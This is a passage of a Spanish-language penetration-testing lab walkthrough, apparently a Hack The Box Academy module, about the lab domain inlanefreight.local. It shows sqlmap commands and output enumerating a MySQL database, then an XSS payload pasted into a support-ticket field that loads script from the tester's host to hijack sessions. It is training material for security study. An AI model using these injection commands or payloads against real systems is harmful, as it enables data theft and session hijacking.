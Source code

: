 ```r
[*] sys

[00:09:24] [INFO] fetched data logged to text files under '/root

/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:09:24 /2022-06-21/
```

Enfocándonos en la base de datos `status`, encontramos que solo tiene dos tablas:



```r
sqlmap -r sqli.txt --dbms=mysql -D status --tables

<SNIP>

---
[00:10:29] [INFO] testing MySQL
[00:10:29] [INFO] confirming MySQL
[00:10:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:10:29] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```

Desde aquí, podríamos intentar volcar todos los datos de la base de datos `status` y registrar otro hallazgo: `SQL Injection`. Prueba esto manualmente usando el módulo [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) como guía y consulta el módulo [SQLMap Essentials](https://academy.hackthebox.com/module/details/58) si necesitas ayuda con el enfoque basado en herramientas.

---

## support.inlanefreight.local

Avanzando, navegamos al sitio `http://support.inlanefreight.local` y vemos que es un portal de soporte de TI. Los portales de tickets de soporte pueden permitirnos interactuar con un usuario en vivo y, a veces, pueden llevar a un ataque del lado del cliente donde podemos secuestrar la sesión de un usuario a través de una vulnerabilidad de `Cross-Site Scripting (XSS)`. Navegando por la aplicación, encontramos la página `/ticket.php` donde podemos crear un ticket de soporte. Veamos si podemos activar algún tipo de interacción del usuario. Completa todos los detalles para un ticket e incluye lo siguiente en el campo `Message`:


```r
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>
```
